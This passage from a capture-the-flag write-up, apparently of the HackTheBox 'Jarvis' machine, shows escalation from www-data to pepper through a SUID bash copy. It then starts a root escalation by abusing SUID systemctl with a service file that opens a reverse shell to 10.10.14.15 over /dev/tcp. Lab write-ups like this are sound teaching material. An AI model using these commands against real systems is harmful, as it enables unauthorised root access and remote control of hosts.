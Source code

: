 What this does is to copy `/bin/bash` to `/tmp/pepper_bash`, and add SUID sticky bit to it, so that we can spawn a Bash shell as user `pepper`.

```shell
www-data@jarvis:/var/www/html$ ls -lah /tmp/pepper_bash
-rwsr-sr-x 1 pepper pepper 1.1M Jul 28 08:53 /tmp/pepper_bash
www-data@jarvis:/var/www/html$ /tmp/pepper_bash -p
whoami; hostname; id;ip a
pepper
jarvis
uid=33(www-data) gid=33(www-data) euid=1000(pepper) egid=1000(pepper) groups=1000(pepper),33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:71:d5 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.143/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:71d5/64 scope link 
       valid_lft forever preferred_lft forever
```

**Now, our `euid` (Effective User ID) is user `pepper`!**

**user.txt:**
```shell
cat /home/pepper/user.txt
{Redacted}
```

### pepper to root

**During the enumeration in `www-data`, we found that `/bin/systemctl` has SUID sticky bit!**

That being said, we can escalate our privilege to `root`!

**You could follow [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid), but I found [this GitHub Gist](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740) is better to me.**

- **Create a service file:**

```sh
cd /dev/shm
cat << EOF > rootrevshell.service
[Unit]
Description=givemerootpls

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.15/53 0>&1'

[Install]
WantedBy=multi-user.target
EOF
```
